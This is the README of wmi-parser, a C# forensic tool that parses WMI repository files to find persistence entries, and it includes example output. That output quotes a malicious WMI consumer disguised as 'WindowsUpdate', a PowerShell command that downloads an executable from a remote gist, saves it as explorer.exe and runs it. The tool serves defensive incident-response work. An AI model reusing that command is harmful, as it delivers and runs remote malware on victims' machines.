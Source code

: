 # wmi-parser

## TLDR

There is nothing new here! It is just a rewrite of @DavidPany excellent work into WMI parsing. The original pythin code can be found here:

https://github.com/davidpany/WMI_Forensics

## Background

I need WMI parsing for autorunner, so converted the original python code to C#, and thought it might as well be available as a standalone tool. The only added feature is CSV export

## Example
```
.\wmi-parser.exe -i .\OBJECTS.DATA

wmi-parser v0.0.1

Author: Mark Woan / woanware (markwoan@gmail.com)
https://github.com/woanware/wmi-parser

  SCM Event Log Consumer-SCM Event Log Filter - (Common binding based on consumer and filter names,  possibly legitimate)
    Consumer: NTEventLogEventConsumer ~ SCM Event Log Consumer ~ sid ~ Service Control Manager

    Filter:
      Filter Name : SCM Event Log Filter
      Filter Query: select * from MSFT_SCMEventLogEvent

  WindowsUpdate-DriveChanged

    Name: WindowsUpdate
    Type: CommandLineEventConsumer
    Arguments: powershell.exe -NoP [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;(New-Object Net.WebClient).DownloadFile('https://gist.github.com/malwarez/ZXCVBN.exe?raw=true','explorer.exe'); Start-Process ('explorer.exe')

    Filter:
      Filter Name : DriveChanged
      Filter Query: SELECT * FROM Win32_VolumeChangeEvent
```
